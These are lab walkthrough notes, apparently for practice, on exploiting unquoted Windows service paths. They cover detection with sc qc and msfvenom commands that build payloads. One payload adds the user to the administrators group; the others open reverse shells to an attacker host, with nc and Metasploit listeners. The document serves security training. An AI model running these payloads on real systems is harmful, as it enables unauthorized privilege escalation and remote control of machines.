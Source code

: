 #Windows #PrivEsc #UnquotedServicePaths #sc #msfconsole #meterpreter #MSFvenom 

## **Detection**

Windows VM

1. Open command prompt and type: `sc qc unquotedsvc`
2. Notice that the “`BINARY_PATH_NAME`” field displays a path that is not confined between quotes.

## **Exploitation**

Kali VM

1. Open command prompt and type: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
	1. For reverse tcp shell NON meterpreter: `msfvenom -p windows/shell/reverse_tcp LHOST=10.2.1.119 -f exe -o common.exe`
		1. listener: `nc -lnvp 4444` 
	2. For reverse tcp meterpreter shell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.1.119 -f exe -o common.exe`
		1. listener: `exploit/multi/handler`
2. Copy the generated file, `common.exe`, to the Windows VM.

Windows VM

1. Place `common.exe` in ‘`C:\Program Files\Unquoted Path Service`’.
2. Open command prompt and type: `sc start unquotedsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

For additional practice, it is recommended to attempt the TryHackMe room [Steel Mountain](https://tryhackme.com/room/steelmountain)
